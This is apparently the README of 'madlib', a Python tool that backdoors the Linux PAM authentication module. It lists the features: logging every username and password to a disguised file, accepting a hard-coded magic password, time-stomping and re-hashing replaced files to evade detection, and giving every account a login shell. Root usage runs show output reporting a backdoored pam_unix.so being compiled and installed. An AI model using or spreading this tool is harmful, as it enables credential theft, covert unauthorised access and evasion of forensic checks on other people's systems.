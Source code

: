 "# madlib\n## Features: \n* Logs username/passwords to file\n* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)\n* Automatically updates the DPKG MD5 hashes for all moved/replaced files\n* Time stomps all moved/replaced files\n* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)\n## Requirements:\n* Requires Python3\n* Root privileges needed\n## Default Entries:\n* Username/passwords by default are logged to /usr/include/type.h\n* The default magic password is secretpassxd\n\n\n## Usage\n\nManually Specifying PAM Version:\n\n```\nroot@homebase /h/r/madlib# ./pam.py \"1.3.0\"\n                    .___.__  ._____.\n  _____ _____     __| _/|  | |__\\_ |__\n /     \\\\__  \\   / __ | |  | |  || __ \\\n|  Y Y  \\/ __ \\_/ /_/ | |  |_|  || \\_\\ \\\n|__|_|  (____  /\\____ | |____/__||___  /\n      \\/     \\/      \\/              \\/\n    https://github.com/rek7/madlib/\n[00:15:55] [+] PAM TAR Download Completed\n[00:15:56] [+] Finishing Extracting\n[00:15:56] [+] Added Backdoor\n[00:16:16] [+] Finished Compiling Tainted Lib\n[00:16:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'\n```\n\nAutomatic Version Detection:\n\n```\nroot@homebase /h/r/madlib# ./pam.py\n                    .___.__  ._____.\n  _____ _____     __| _/|  | |__\\_ |__\n /     \\\\__  \\   / __ | |  | |  || __ \\\n|  Y Y  \\/ __ \\_/ /_/ | |  |_|  || \\_\\ \\\n|__|_|  (____  /\\____ | |____/__||___  /\n      \\/     \\/      \\/              \\/\n    https://github.com/rek7/madlib/\n[00:17:55] [!] Detected PAM Version: '1.3.0'\n[00:17:55] [+] PAM TAR Download Completed\n[00:17:56] [+] Finishing Extracting\n[00:17:56] [+] Added Backdoor\n[00:18:16] [+] Finished Compiling Tainted Lib\n[00:18:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'\n```\n"